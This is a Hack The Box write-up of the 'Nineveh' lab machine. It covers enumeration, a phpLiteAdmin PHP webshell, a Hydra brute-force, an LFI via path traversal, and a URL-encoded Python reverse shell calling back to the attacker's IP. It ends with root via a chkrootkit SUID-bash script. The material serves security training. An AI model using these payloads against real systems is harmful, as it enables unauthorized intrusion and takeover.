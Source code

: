 # HTB - Nineveh

#### Ip: 10.129.69.39
#### Name: Nineveh
#### Rating: Medium

----------------------------------------------------------------------

![Nineveh.png](../assets/nineveh_assets/Nineveh.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.69.39 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-08 13:45 CDT
Nmap scan report for 10.10.10.43
Host is up (0.070s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.98 seconds
```

Ok looks just like HTTP and HTTPS open for this box. Lets add nineveh.htb to `/etc/hosts` first off.

Looking at the page on port 80 we find a basic HTML landing page:

```
It works!

This is the default web page for this server.

The web server software is running but no content has been added, yet.
```

And on port 443 we find a simple image:

![nineveh_443.png](../assets/nineveh_assets/nineveh_443.png)

Using basic directory fuzzing we find a `/db` page, which appears to be a phpLiteAdmin page:

![nineveh_db.png](../assets/nineveh_assets/nineveh_db.png)

After trying just a few low-hanging-fruit passwords, I found I was able to login with the password `password123`.

Looking for exploits for phpLiteAdmin 1.9 I find: https://www.exploit-db.com/exploits/24044

This exploit clearly lays out steps we need to take to exploit this:

```
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

Lets take this idea and try to create a webshell. We'll create a new db called shell.php, and add a table called shell. From here we can replicate the step above and add the text field `<?php system($_GET["cmd"]); ?>`.

![nineveh_shell.png](../assets/nineveh_assets/nineveh_shell.png)

CLicking `create` and returning to the shell.php db page we see it is being stored in `/var/tmp/shell.php` which means until we get deeper access to the target it doesn't seem usable to us yet.

Lets take step back and perform more thorough directory fuzzing:

For port 80:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 80_dirs.txt 
```

and port 443:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -k  -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 443_dirs.txt 
```

Looking at the scan output we find a department login page:

![nineveh_dirs80.png](../assets/nineveh_assets/nineveh_dirs80.png)

![nineveh_department.png](../assets/nineveh_assets/nineveh_department.png)

And looking at the page source we find an interesting comment:

![nineveh_source.png](../assets/nineveh_assets/nineveh_source.png)

Looks like Mysql is running internally, and we also discover a potential username amrois.

Trying to login if we enter `admin` as the username and an incorrect password we get the error `invalid password!`, but if we enter something like `root:root` we get the error `incorrect username`. This lets us know the username `admin` exists.

Trying common passwords got me nowhere here so I fired up Hydra and we found a hit:

![nineveh_hydra.png](../assets/nineveh_assets/nineveh_hydra.png)

`admin:1q2w3e4r5t`

We can now access the site:

![nineveh_in.png](../assets/nineveh_assets/nineveh_in.png)

In the Notes section we find another note from amrois:

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

The path for Notes is: http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt

Which looks like its worth testing LFI here.

Fiddling around with placement, I eventually found an LFI at: http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd

![nineveh_lfi1.png](../assets/nineveh_assets/nineveh_lfi1.png)

Trying to use this LFI to interact with the shell.php file we uploaded earlier, we can confirm execution as user www-data:

![nineveh_webshell.png](../assets/nineveh_assets/nineveh_webshell.png)

Lets grab a python reverse shell one-liner from revshells.com, URL encode it, and pass it as our command:

```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../var/tmp/shell.php&cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.214%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ nc -lnvp 443                                             
listening on [any] 443 ...
connect to [10.10.14.214] from (UNKNOWN) [10.129.69.39] 34386
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
www-data@nineveh:/var/www/html/department$ hostname
hostname
nineveh
```

Now that we have a shell on the target we can attempt to access the user.txt flag in amrois `/home` directory, but get an access denied:

```
www-data@nineveh:/home/amrois$ cat user.txt
cat: user.txt: Permission denied
```

Not finding much of interest I decided to load pspy64, and we find that `chkrootkit` is running very frequently:

![nineveh_chkroot.png](../assets/nineveh_assets/nineveh_chkroot.png)

Looking for exploits I find: https://www.exploit-db.com/exploits/33899

Lets create a file called `update` in `/tmp` that sets the SUID on `/bin/bash`

```
www-data@nineveh:/tmp$ cat update 
#!/bin/bash
/bin/chmod 4755 /bin/bash
```

We can then make it executable and assign it open permissions:

```
www-data@nineveh:/tmp$ chmod +x /tmp/update
www-data@nineveh:/tmp$ chmod 777 /tmp/update
```

We can wait just a second or two before running `/bin/bash -p` to drop into a root shell:

```
www-data@nineveh:/tmp$ /bin/bash -p         
bash-4.3# whoami
root
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

And we can now grab the two flags:

![nineveh_user_flag.png](../assets/nineveh_assets/nineveh_user_flag.png)

![nineveh_root_flag.png](../assets/nineveh_assets/nineveh_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------

